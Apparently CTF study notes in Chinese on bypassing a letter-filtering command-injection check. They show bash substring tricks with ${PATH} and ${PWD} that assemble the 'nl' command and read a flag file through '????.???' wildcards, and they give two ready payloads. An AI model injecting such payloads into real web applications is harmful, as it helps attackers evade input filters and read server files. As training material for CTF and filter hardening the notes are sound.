

# 知识点
bash内置变量的利用
```bash
┌──(root💀kali)-[~]
└─# echo ${PWD} 
/root

┌──(root💀kali)-[~]
└─# echo ${PWD:0:1}      #表示从0下标开始的第一个字符
/                                                                                                                                                                                       
┌──(root💀kali)-[~]
└─# echo ${PWD:~0:1}      #从结尾开始往前的第一个字符
t

┌──(root💀kali)-[~]
└─# echo ${PWD:~0}      
t

┌──(root💀kali)-[~]
└─# echo ${PWD:~A}       #所以字母和0具有同样作用             
t

┌──(root💀kali)-[~]
└─# echo ${PATH}                            
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

┌──(root💀kali)-[~]
└─# echo ${PATH:~A}                
n

┌──(root💀kali)-[~]
└─# ls                                      
Desktop  Documents  Downloads  flag.txt  Music  Pictures  Public  Templates  Videos

┌──(root💀kali)-[~]
└─# ${PATH:~A}l flag.txt
1  flag{test}

┌──(root💀kali)-[~]
└─# ${#PWD}
5 
表示该变量的长度
                    
```
```bash
${${PATH}
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

${PWD}
/var/www/html

所以payload为
${PATH:~A}${PWD:~A} ????.???
```
# 思路
```php
${PATH:~A}${PWD:~A}$IFS????.???
方法二 ${PATH:${#HOME}:${#SHLVL}}${PATH:${#RANDOM}:${#SHLVL}} ?${PATH:${#RANDOM}:${#SHLVL}}??.???
```

